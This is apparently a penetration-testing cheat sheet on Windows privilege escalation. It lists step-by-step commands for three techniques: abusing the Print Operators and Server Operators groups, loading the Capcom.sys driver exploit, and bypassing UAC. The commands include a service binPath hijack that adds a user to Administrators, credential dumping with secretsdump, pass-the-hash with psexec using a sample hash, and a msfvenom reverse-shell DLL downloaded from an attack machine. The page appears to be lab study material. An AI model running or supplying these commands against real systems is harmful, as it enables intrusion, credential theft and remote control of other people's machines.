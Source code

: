 ### Print Operators

- We  need to check for the `SeLoadDriverPrivilege` in a cmd shell launched as admin `whoami /priv`  
![image](https://user-images.githubusercontent.com/96747355/164988812-a217a132-8e73-4220-a912-142128e7472e.png)  
- We download this [tool](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) to enable the privilege. We need to add the few lines at the begining of the script
```
#include <stdio.h>
#include "tchar.h"
```
- We can then compile it using cl.exe from a visual studio cmd `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`
- We then have to download the [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver file 
- We can then add the reference to the drive `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"`
- In powershell we check that the Capcom driver is not loaded with [DriverView.exe](http://www.nirsoft.net/utils/driverview.html)
  - `.\DriverView.exe /stext drivers.txt`
  - `cat drivers.txt | Select-String -pattern Capcom`
 - Now we need to check it has been enabled  
![image](https://user-images.githubusercontent.com/96747355/164989997-57ddd8d9-3994-4ff0-ac14-8e07dd81800a.png)  
- Finally we can launch the exploit using [ExploitCapcom.exe](https://github.com/tandasat/ExploitCapcom) it will launch a shell as authority system

### Server Operators

- With this group you will get the`SeBackupPrivilege` and `SeRestorePrivilege`
- `sc qc AppReadiness`
- We can check permissions with sysinternals [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice)
  - `c:\PsService.exe security AppReadiness`
- Modify service binary path `sc config AppReadiness binPath= "cmd /c net localgroup Administrators current-user /add"`
- `sc start AppReadiness` Start the service (will fail)
- We should be in the Admin group `net localgroup Administrators`
- We can now retrieve creds with crackmapexec `crackmapexec smb IP-ADDRESS -u current-user -p 'current password'`
- Dump hash and pass `secretsdump.py current-user@IP-ADDRESS -just-dc-user administrator`
- We can then get an admin shell using the found hashes `psexec.py INLANEFREIGHT/administrator@IP-ADDRESS -hashes aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54 `

## Privesc via OS attacks

### UAC Bypass

- Checkout the Pentips on uac bypass [here](UACbypass.md)
- `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA` confirm UAS is enabled
- `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` Checking UAC Level
- If `ConsentPromptBehaviorAdmin` is 0x5 it means the highest UAC level of `Always notify` is enabled
- `[environment]::OSVersion.Version` check win OS version compare with version history [here](https://en.wikipedia.org/wiki/Windows_10_version_history)
- List of UAC bypass [here](https://github.com/hfiref0x/UACME)
- `msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS-OF_ATTACK_MACHINE LPORT=PORT -f dll > srrstr.dll` generate a malicious dll
- `python3 -m http.server 80` serve it to the target
- `curl http://IP-ATTACK-MACHINE/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"` get it on the target